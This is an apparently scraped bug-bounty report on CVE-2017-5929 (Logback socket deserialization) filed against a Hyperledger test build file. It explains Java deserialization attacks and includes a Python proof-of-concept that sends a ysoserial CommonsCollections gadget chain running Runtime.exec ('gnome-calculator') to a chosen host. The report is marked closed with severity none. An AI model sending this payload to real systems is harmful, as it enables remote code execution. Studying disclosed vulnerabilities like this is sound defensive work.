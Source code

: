 # CVE-2017-5929: Hyperledger - Arbitrary Deserialization of Untrusted Data 

## Report Details
- **Report ID**: 1739099
- **URL**: https://hackerone.com/reports/1739099
- **State**: Closed
- **Severity**: none
- **Submitted**: 2022-10-18T08:23:09.597Z
- **Disclosed**: 2022-10-18T15:36:03.662Z

## Reporter
- **Username**: mik-patient
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hyperledger

## Vulnerability Information
## Vulnerability Overview
Serialization is a process of converting an object into a sequence of bytes which can be persisted to a disk or database or can be sent through streams. The reverse process of creating object from sequence of bytes is called deserialization. Serialization is commonly used for communication (sharing objects between multiple hosts) and persistence (store the object state in a file or a database). It is an integral part of popular protocols like Remote Method Invocation (RMI), Java Management Extension (JMX), Java Messaging System (JMS), Action Message Format (AMF), Java Server Faces (JSF) ViewState, etc.

Deserialization of untrusted data (CWE-502), is when the application deserializes untrusted data without sufficiently verifying that the resulting data will be valid, letting the attacker to control the state or the flow of the execution. Java deserialization issues have been known for years. However, interest in the issue intensified greatly in 2015, when classes that could be abused to achieve remote code execution were found in a popular library (Apache Commons Collection). These classes were used in zero-days affecting IBM WebSphere, Oracle WebLogic and many other products.

An attacker just needs to identify a piece of software that has both a vulnerable class on its path, and performs deserialization on untrusted data. Then all they need to do is send the payload into the deserializer, getting the command executed. Developers put too much trust in Java Object Serialization. Some even de-serialize objects pre-authentication. When deserializing an Object in Java you typically cast it to an expected type, and therefore Java's strict type system will ensure you only get valid object trees. Unfortunately, by the time the type checking happens, platform code has already created and executed significant logic. So, before the final type is checked a lot of code is executed from the readObject() methods of various objects, all of which is out of the developer's control. By combining the readObject() methods of various classes which are available on the classpath of the vulnerable application an attacker can execute functions (including calling Runtime.exec() to execute local OS commands).

**System Host(s):**
https://github.com/hyperledger/fabric-chaincode-java/blob/-/fabric-chaincode-integration-test/src/contracts/wrapper-maven/pom.xml
QOS.ch Logback before 1.2.0 has a serialization vulnerability affecting the SocketServer and ServerSocketReceiver components. The RemoteStreamAppenderClient class in logback-classic and the SocketNode classes in logback-classic and logback-access allow data to be deserialized over a Java Socket, via an ObjectInputStream, without validating the data beforehand. When data is received from the Socket, to be logged, it is deserialized into Java objects.An attacker can exploit this vulnerability by sending malicious, serialized Java objects over the connection to the Socket, which may result in execution of arbitrary code when those objects are deserialized. Note that although logback-core is implicated by the Logback project here, the Sonatype Security Research team discovered that the vulnerability is actually present in the logback-classic and logback-access components. Versions prior to 1.2.0 are vulnerable, as stated in the advisory.

**Exploitation code:**
```python
import socket
import sys

host = sys.argv[1]
port = sys.argv[2]

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "Connecting to: " + host + ":" + port
sock.connect((host, int(port)))
print "Connected."

payload = '\xac\xed\x00\x05\x73\x72\x00\x2e\x6a\x61\x76\x61\x78\x2e\x6d\x61\x6e\x61\x67\x65\x6d\x65\x6e\x74\x2e\x42\x61\x64\x41\x74\x74\x72\x69\x62\x75\x74\x65\x56\x61\x6c\x75\x65\x45\x78\x70\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd4\xe7\xda\xab\x63\x2d\x46\x40\x02\x00\x01\x4c\x00\x03\x76\x61\x6c\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd0\xfd\x1f\x3e\x1a\x3b\x1c\xc4\x02\x00\x00\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\xd5\xc6\x35\x27\x39\x77\xb8\xcb\x03\x00\x04\x4c\x00\x05\x63\x61\x75\x73\x65\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\x3b\x4c\x00\x0d\x64\x65\x74\x61\x69\x6c\x4d\x65\x73\x73\x61\x67\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x0a\x73\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x74\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x4c\x00\x14\x73\x75\x70\x70\x72\x65\x73\x73\x65\x64\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x74\x00\x10\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4c\x69\x73\x74\x3b\x78\x70\x71\x00\x7e\x00\x08\x70\x75\x72\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x02\x46\x2a\x3c\x3c\xfd\x22\x39\x02\x00\x00\x78\x70\x00\x00\x00\x03\x73\x72\x00\x1b\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x61\x09\xc5\x9a\x26\x36\xdd\x85\x02\x00\x04\x49\x00\x0a\x6c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x4c\x00\x0e\x64\x65\x63\x6c\x61\x72\x69\x6e\x67\x43\x6c\x61\x73\x73\x71\x00\x7e\x00\x05\x4c\x00\x08\x66\x69\x6c\x65\x4e\x61\x6d\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x05\x78\x70\x00\x00\x00\x4a\x74\x00\x26\x79\x73\x6f\x73\x65\x72\x69\x61\x6c\x2e\x70\x61\x79\x6c\x6f\x61\x64\x73\x2e\x43\x6f\x6d\x6d\x6f\x6e\x73\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x35\x74\x00\x18\x43\x6f\x6d\x6d\x6f\x6e\x73\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x35\x2e\x6a\x61\x76\x61\x74\x00\x09\x67\x65\x74\x4f\x62\x6a\x65\x63\x74\x73\x71\x00\x7e\x00\x0b\x00\x00\x00\x2d\x71\x00\x7e\x00\x0d\x71\x00\x7e\x00\x0e\x71\x00\x7e\x00\x0f\x73\x71\x00\x7e\x00\x0b\x00\x00\x00\x26\x74\x00\x19\x79\x73\x6f\x73\x65\x72\x69\x61\x6c\x2e\x47\x65\x6e\x65\x72\x61\x74\x65\x50\x61\x79\x6c\x6f\x61\x64\x74\x00\x14\x47\x65\x6e\x65\x72\x61\x74\x65\x50\x61\x79\x6c\x6f\x61\x64\x2e\x6a\x61\x76\x61\x74\x00\x04\x6d\x61\x69\x6e\x73\x72\x00\x26\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x4c\x69\x73\x74\xfc\x0f\x25\x31\xb5\xec\x8e\x10\x02\x00\x01\x4c\x00\x04\x6c\x69\x73\x74\x71\x00\x7e\x00\x07\x78\x72\x00\x2c\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x19\x42\x00\x80\xcb\x5e\xf7\x1e\x02\x00\x01\x4c\x00\x01\x63\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x3b\x78\x70\x73\x72\x00\x13\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x41\x72\x72\x61\x79\x4c\x69\x73\x74\x78\x81\xd2\x1d\x99\xc7\x61\x9d\x03\x00\x01\x49\x00\x04\x73\x69\x7a\x65\x78\x70\x00\x00\x00\x00\x77\x04\x00\x00\x00\x00\x78\x71\x00\x7e\x00\x1a\x78\x73\x72\x00\x34\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x6b\x65\x79\x76\x61\x6c\x75\x65\x2e\x54\x69\x65\x64\x4d\x61\x70\x45\x6e\x74\x72\x79\x8a\xad\xd2\x9b\x39\xc1\x1f\xdb\x02\x00\x02\x4c\x00\x03\x6b\x65\x79\x71\x00\x7e\x00\x01\x4c\x00\x03\x6d\x61\x70\x74\x00\x0f\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4d\x61\x70\x3b\x78\x70\x74\x00\x03\x66\x6f\x6f\x73\x72\x00\x2a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x6d\x61\x70\x2e\x4c\x61\x7a\x79\x4d\x61\x70\x6e\xe5\x94\x82\x9e\x79\x10\x94\x03\x00\x01\x4c\x00\x07\x66\x61\x63\x74\x6f\x72\x79\x74\x00\x2c\x4c\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x63\x6f\x6d\x6d\x6f\x6e\x73\x2f\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2f\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\x78\x70\x73\x72\x00\x3a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x43\x68\x61\x69\x6e\x65\x64\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x30\xc7\x97\xec\x28\x7a\x97\x04\x02\x00\x01\x5b\x00\x0d\x69\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x73\x74\x00\x2d\x5b\x4c\x6f\x72\x67\x2f\x61\x70\x61\x63\x68\x65\x2f\x63\x6f\x6d\x6d\x6f\x6e\x73\x2f\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2f\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\x78\x70\x75\x72\x00\x2d\x5b\x4c\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x3b\xbd\x56\x2a\xf1\xd8\x34\x18\x99\x02\x00\x00\x78\x70\x00\x00\x00\x05\x73\x72\x00\x3b\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x43\x6f\x6e\x73\x74\x61\x6e\x74\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x58\x76\x90\x11\x41\x02\xb1\x94\x02\x00\x01\x4c\x00\x09\x69\x43\x6f\x6e\x73\x74\x61\x6e\x74\x71\x00\x7e\x00\x01\x78\x70\x76\x72\x00\x11\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x52\x75\x6e\x74\x69\x6d\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x73\x72\x00\x3a\x6f\x72\x67\x2e\x61\x70\x61\x63\x68\x65\x2e\x63\x6f\x6d\x6d\x6f\x6e\x73\x2e\x63\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x2e\x66\x75\x6e\x63\x74\x6f\x72\x73\x2e\x49\x6e\x76\x6f\x6b\x65\x72\x54\x72\x61\x6e\x73\x66\x6f\x72\x6d\x65\x72\x87\xe8\xff\x6b\x7b\x7c\xce\x38\x02\x00\x03\x5b\x00\x05\x69\x41\x72\x67\x73\x74\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x4f\x62\x6a\x65\x63\x74\x3b\x4c\x00\x0b\x69\x4d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x05\x5b\x00\x0b\x69\x50\x61\x72\x61\x6d\x54\x79\x70\x65\x73\x74\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x43\x6c\x61\x73\x73\x3b\x78\x70\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x3b\x90\xce\x58\x9f\x10\x73\x29\x6c\x02\x00\x00\x78\x70\x00\x00\x00\x02\x74\x00\x0a\x67\x65\x74\x52\x75\x6e\x74\x69\x6d\x65\x75\x72\x00\x12\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x43\x6c\x61\x73\x73\x3b\xab\x16\xd7\xae\xcb\xcd\x5a\x99\x02\x00\x00\x78\x70\x00\x00\x00\x00\x74\x00\x09\x67\x65\x74\x4d\x65\x74\x68\x6f\x64\x75\x71\x00\x7e\x00\x32\x00\x00\x00\x02\x76\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\xa0\xf0\xa4\x38\x7a\x3b\xb3\x42\x02\x00\x00\x78\x70\x76\x71\x00\x7e\x00\x32\x73\x71\x00\x7e\x00\x2b\x75\x71\x00\x7e\x00\x2f\x00\x00\x00\x02\x70\x75\x71\x00\x7e\x00\x2f\x00\x00\x00\x00\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x75\x71\x00\x7e\x00\x32\x00\x00\x00\x02\x76\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x70\x76\x71\x00\x7e\x00\x2f\x73\x71\x00\x7e\x00\x2b\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\x3b\xad\xd2\x56\xe7\xe9\x1d\x7b\x47\x02\x00\x00\x78\x70\x00\x00\x00\x01\x74\x00\x10\x67\x6e\x6f\x6d\x65\x2d\x63\x61\x6c\x63\x75\x6c\x61\x74\x6f\x72\x74\x00\x04\x65\x78\x65\x63\x75\x71\x00\x7e\x00\x32\x00\x00\x00\x01\x71\x00\x7e\x00\x37\x73\x71\x00\x7e\x00\x27\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x49\x6e\x74\x65\x67\x65\x72\x12\xe2\xa0\xa4\xf7\x81\x87\x38\x02\x00\x01\x49\x00\x05\x76\x61\x6c\x75\x65\x78\x72\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4e\x75\x6d\x62\x65\x72\x86\xac\x95\x1d\x0b\x94\xe0\x8b\x02\x00\x00\x78\x70\x00\x00\x00\x01\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x00\x77\x08\x00\x00\x00\x10\x00\x00\x00\x00\x78\x78'


print "Sending payload... " 
sock.send(payload)

resp2 = sock.recv(10000)

print "Payload sent. Response: " + resp2.encode("hex")
print "Closing connection"
sock.shutdown(1)
sock.close();
print "Exiting"
```

## Impact

**CVE-2017-5929**
`CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
[Github Advisitory](https://github.com/advisories/GHSA-vmfg-rjjm-rjrj)

## Attachments
No attachments
